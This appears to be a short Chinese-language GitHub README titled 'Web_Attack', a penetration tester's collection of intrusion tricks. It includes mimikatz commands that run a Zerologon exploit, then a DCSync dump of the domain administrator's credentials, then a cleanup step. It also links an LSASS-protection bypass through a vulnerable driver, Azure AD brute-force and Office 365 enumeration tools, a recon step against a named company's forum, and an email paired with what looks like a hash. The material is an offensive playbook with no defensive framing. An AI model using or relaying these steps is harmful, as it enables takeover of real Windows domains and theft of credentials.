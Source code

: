 # Web_Attack

记录一些渗透中的小技巧，帮助各位攻破各种"不可能"


验证Mail是否存在

http://mailtester.com/testmail.php


搜索Google群组,查看是否有群组，可以查看到邮箱 用户 或者 第三方域名

https://groups.google.com/a/binance.com/forum/


发现WEB-INF/web.xml，扩大攻击面

https://gist.githubusercontent.com/harisec/519dc6b45c6b594908c37d9ac19edbc3/raw/af521a3c730d4a77660e91ed41f51725cb0bbde3/exploit_path_traversals_in_Java_webapps.txt


Zerologon  突破 445

lsadump::zerologon /target:WIN-4MRAELMUJKS /account:WIN-4MRAELMUJKS$

lsadump::zerologon /target:WIN-4MRAELMUJKS /account:WIN-4MRAELMUJKS$ /exploit

lsadump::dcsync /domain:red.com /dc:WIN-4MRAELMUJKS /user:administrator /authuser:WIN-4MRAELMUJKS$ /authdomain:red /authpassword:"" /authntlm

lsadump::postzerologon /target:red.com /account:WIN-4MRAELMUJKS$

利用BYOvD漏洞加载mimidiv 来绕过Lsass保护
https://medium.com/@gorkemkaradeniz/defeating-runasppl-utilizing-vulnerable-drivers-to-read-lsass-with-mimikatz-28f4b50b1de5
https://github.com/alxbrn/gdrv-loader  POC

"sec@smartservice.com.cn"
"bfaec2da79d0955518c6beb581e09f47"


https://arstechnica.com/information-technology/2021/09/new-azure-active-directory-password-brute-forcing-flaw-has-no-fix/

https://github.com/nyxgeek/AzureAD_Autologon_Brute/blob/main/azuread_autologon_brute.py

https://www.synacktiv.com/en/publications/azure-ad-introduction-for-red-teamers.html

https://github.com/LMGsec/o365creeper







